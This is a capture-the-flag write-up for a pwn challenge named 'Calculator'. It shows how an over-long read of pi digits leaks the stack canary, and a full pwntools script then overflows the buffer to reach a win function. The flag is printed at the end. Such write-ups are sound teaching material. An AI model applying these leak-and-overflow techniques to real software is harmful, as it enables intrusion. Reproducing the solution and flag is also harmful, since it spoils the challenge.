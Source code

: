 # pwn / Calculator

### Description

nc challs.pwnoh.io 13377

File: [calc](./calc)

### Solve

This was a fun challenge. Scrolling through the decomp, you can see that it does some math operation on two numbers, then lets you type whatever you want (there's a pretty big overflow), and then returns. However, stack canaries are enabled so you have to find a way to leak it first. The trick is when you print pi to use it for the operations. You can input an arbitrary number and then have it read that many digits of pi. If that number is past however many digits of pi that you have, it'll read extra data. The first time I printed, I used `50000` as the number of printed characters and it started printing environmental variables and then segfaulted.

So I had to find some offset after pi was stored where I could find the stack canary was stored. Learning about canaries, the same canary is reused in all functions in question. When I printed a lot of data, the canary appeared multiple times (I had to remember to search it little endian, and I found the canary through gdb). So I just needed to leak an extra like 16 characters to get the canary, then I could overflow to the win function.

Solve script:
```py
from pwn import *


# initialize the binary and set the context (architecture, etc.)
binary = "./calc" # ensure it is executable (chmod +x)
elf = context.binary = ELF(binary, checksec=False)

gs = """
break main
continue
"""

# run with python3 solve.py REMOTE
if args.REMOTE:
    p = remote("challs.pwnoh.io", 13377)

# run with python3 solve.py GDB
elif args.GDB:
    # having issues with gdb showing up? install and run `tmux` before running this script, then uncomment this:
    context.terminal = ["tmux", "splitw", "-h"]

    p = gdb.debug(binary, gdbscript=gs)

# run with python3 solve.py
else:
    p = elf.process()


### START HERE ###

# if a system call fails, it's a stack alignment issue
# just skip past the opening push statement in win to win
# when you call a lot of functions, the last nibble has to be set to 0
# many super optimized functions in system use weird vector stuff that assumes this and then you will get a segfault if it isn't
# you can either align it yourself or just skip past the first push statement in a given function
win = p64(0x004012fb)
# 0xdcc9376d2d195e00
print(p.recvuntil(b"operand: "))
print(p.sendline(b"pi"))
print(p.recvuntil(b"use: "))
p.sendline(str(0x2710 + 14).encode())
canary = p.recvline()[-9:-1]
print(canary)
print(p.recvuntil(b"operator: "))
p.sendline(b"*")
p.recvuntil(b"operand: ")
p.sendline(b"1")

print(p.recvuntil(b"here: "))
payload = b'A' * 40 + canary + b'B' * 8 + win
p.sendline(payload)

p.interactive()
```

Flag: `bctf{cAn4r13S_L0v3_t0_34t_P13_c760f8cc0a44fed9}`